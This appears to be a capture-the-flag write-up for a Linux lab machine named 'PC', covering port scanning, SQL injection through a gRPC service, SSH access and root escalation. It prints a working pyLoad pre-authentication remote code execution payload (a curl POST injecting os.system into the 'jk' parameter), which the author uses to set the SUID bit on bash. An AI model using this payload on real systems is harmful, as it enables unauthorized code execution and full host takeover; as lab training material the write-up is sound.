




# PC
* **POINTS**: 20
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Linux
* **RATING**: 4.5

## 1. Recon
```bash
└─$ nmap -p- -sC -sV --min-rate 5000 10.10.11.214 -oN nmappc -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-12 11:16 CEST
Nmap scan report for 10.10.11.214
Host is up (0.16s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.94%I=7%D=8/12%Time=64D74E07%P=x86_64-pc-linux-gnu%r(N
SF:ULL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x0
SF:6\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(Generic
SF:Lines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetRe
SF:quest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPO
SF:ptions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSP
SF:Request,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\
SF:0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPC
SF:Check,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVe
SF:rsionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\
SF:xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0
SF:")%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0
SF:\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\
SF:0\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0
SF:\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\
SF:0\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x0
SF:5\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0
SF:\?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?
SF:\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x0
SF:8\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.92 seconds
```

## 2. TCP - 50051
There is an active service on port 50051 ! 

<p align="center">
  
</p>

Googling I found that port 50051 is the default port for the [gRPC channel](https://xrpl.org/configure-grpc.html).

Upon further digging, we find an [exploit](https://github.com/fullstorydev/grpcui) that allows us to interact with gRPC servers via a browser.

After installing the program we execute the following command:

```bash
└─$ grpcui --plaintext 10.10.11.214:50051 
gRPC Web UI available at http://127.0.0.1:43299/
```


Visiting the Web UI page we can see the presence of a login that we try to make using the default `admin:admin` credentials.

<p align="center">
  
</p>

The site's response is an identification token of the user used.

<p align="center">
  
</p>

So we can intercept the *getInfo* request, inserting the retrieved token.

<p align="center">
  
</p>

After some testing I found that the id parameter is vulnerable to SQLInjection.

<p align="center">
  
</p>

We save the request and use it to run [sqlmap](https://sqlmap.org/).

<p align="center">
  
</p>

We use the credentials found to access via ssh and then we get the user flag.

```bash
└─$ ssh sau@10.10.11.214 
The authenticity of host '10.10.11.214 (10.10.11.214)' can't be established.
ED25519 key fingerprint is SHA256:63yHg6metJY5dfzHxDVLi4Zpucku6SuRziVLenmSmZg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes 
Warning: Permanently added '10.10.11.214' (ED25519) to the list of known hosts.
sau@10.10.11.214's password: 
Last login: Mon May 15 09:00:44 2023 from 10.10.14.19
sau@pc:~$ ld
ld: no input files
sau@pc:~$ ls
user.txt
sau@pc:~$ cat user.txt 
366d3ff20136b0b38ee4e21cd4e958a0
```

## 3/4. User to ROOT
By executing [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) we find that there is an open service on port 8000.

```bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                       
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -                   
```

Running the `wget` command we get the *index.html* page.

```bash
sau@pc:/dev/shm$ wget http://127.0.0.1:8000
--2023-08-12 09:54:22--  http://127.0.0.1:8000/
Connecting to 127.0.0.1:8000... connected.
HTTP request sent, awaiting response... 302 FOUND
Location: /login?next=http%3A%2F%2F127.0.0.1%3A8000%2F [following]
--2023-08-12 09:54:22--  http://127.0.0.1:8000/login?next=http%3A%2F%2F127.0.0.1%3A8000%2F
Reusing existing connection to 127.0.0.1:8000.
HTTP request sent, awaiting response... 200 OK
Length: 13500 (13K) [text/html]
Saving to: ‘index.html’

index.html                   100%[==============================================>]  13.18K  --.-KB/s    in 0s      

2023-08-12 09:54:22 (181 MB/s) - ‘index.html’ saved [13500/13500]
```

Analyzing the page, it turns out that it refers to a login service related to `pyLoad`.

```html
sau@pc:/dev/shm$ cat index.html 
<!DOCTYPE html>
<html lang="en">

<head>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">

    <link rel="stylesheet" type="text/css" href="/_themes/modern/vendor/Bootstrap/css/bootstrap.min.css">
    <link rel="stylesheet" type="text/css" href="/_themes/modern/vendor/jQuery/jQuery%20UI/jquery-ui.min.css"/>
    <link rel="stylesheet" type="text/css" href="/_themes/modern/vendor/mdtoast/css/mdtoast.min.css"/>
    <link rel="stylesheet" type="text/css" href="/_themes/modern/css/base.css" />

    <link rel="icon" href="/_themes/modern/img/favicon.ico"/>

<style type="text/css">
.ui-icon,
.ui-widget-content .ui-icon {
  background-image: url("/_themes/modern/img/ui-icons_444444_256x240.png");
}

#goto_top.affix-top {
  position: absolute;
  bottom: -82px;
  left: 10px;
}

#goto_top.affix {
  position: fixed;
  bottom: 18px;
  left: 10px;
}
</style>

<title>Login - pyLoad </title>


<link rel="stylesheet" type="text/css" href="/_themes/modern/css/login.css" />


</head>

<body>
```

Googling, you can find an [exploit](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad) that allows us to have an RCE by executing the following command:

```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://<target>/flash/addcrypted2'
```


We execute the command to set the SUID bit, then through the command `bash -p` we become root and get the root flag.

```bash
Could not decrypt keysau@pc:/dev/shm$ curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2Bs%20%2Fbin%2Fbash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Sat, 12 Aug 2023 09:59:29 GMT
Server: Cheroot/8.6.0

Could not decrypt keysau@pc:/dev/shm$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
eacb3760878ab00311eb506872e260f9
```